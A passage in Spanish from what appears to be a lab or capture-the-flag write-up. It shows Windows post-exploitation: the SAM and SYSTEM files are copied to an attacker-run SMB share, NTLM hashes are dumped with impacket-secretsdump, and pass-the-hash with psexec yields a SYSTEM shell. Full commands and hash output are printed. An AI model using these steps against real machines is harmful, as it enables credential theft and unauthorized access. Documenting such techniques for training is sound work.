 Nos `creamos` un `servidor SMB` en nuestra máquina

```
# impacket-smbserver smbFolder $(pwd) -smb2support     
```

Nos `transferimos` los `archivos` a nuestra máquina 

```
C:\Windows\Temp\PostExploitation> copy sam \\10.10.16.23\smbFolder\sam
        1 file(s) copied.

C:\Windows\Temp\PostExploitation> copy system \\10.10.16.23\smbFolder\system
        1 file(s) copied.
```

El archivo `SAM (Security Account Manager)` es un archivo en `Windows` que `almacena` las `cuentas` de `usuario` y los `hashes` de sus `contraseñas`. Este archivo está ubicado en `C:\Windows\System32\config\SAM`. Está `encriptado` para `proteger` la `información` de las `contraseñas`. Para poder `descifrarlo`, se necesita una `clave maestra` que se encuentra en el archivo `SYSTEM`

El archivo `SYSTEM` contiene las `claves` de `encriptación` necesarias para `descifrar` los `hashes` almacenados en el archivo `SAM`. Este archivo se encuentra en `C:\Windows\System32\config\SYSTEM`. En específico, el archivo `SYSTEM` contiene el valor `BootKey` que se utiliza para `desencriptar` los `hashes` de las `contraseñas`

`Obtenemos` los hashes `NTLM` de los usuarios

```
# impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0xa749692f1dc76b46d7141ef778aa6bef
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cdf51b162460b7d5bc898f493751a0cc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
haris:1000:aad3b435b51404eeaad3b435b51404ee:8002bc89de91f6b52d518bde69202dc6:::
[*] Cleaning up... 
```

Con este `hash` nos podemos `conectar` a la `máquina víctima` cuando queramos sin necesidad de proporcionar `contraseña`

```
# impacket-psexec WORKGROUP/Administrator@10.129.199.216 -hashes ':cdf51b162460b7d5bc898f493751a0cc'                                  
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.199.216.....
[*] Found writable share ADMIN$
[*] Uploading file xlZCQCOm.exe
[*] Opening SVCManager on 10.129.199.216.....
[*] Creating service fGjC on 10.129.199.216.....
[*] Starting service fGjC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
